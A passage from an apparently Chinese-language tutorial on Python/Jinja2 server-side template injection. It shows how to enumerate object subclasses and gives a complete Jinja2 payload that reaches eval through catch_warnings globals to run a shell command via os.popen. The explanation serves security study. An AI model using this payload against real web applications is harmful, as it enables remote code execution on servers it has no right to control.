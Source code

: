 3. 寻找可用引用（返回列表，即object类下的方法）

```
print(''.__class__.__bases__[0].__subclasses__())
```

![image-20210621162850556](images/14.png)

```
print(''.__class__.__mro__[1].__subclasses__())
```

效果和`print(''.__class__.__bases__[0].__subclasses__())`一样

python3中利用了eval函数去实现RCE的功能

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("dir").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

![image-20210621163544691](images/15.png)
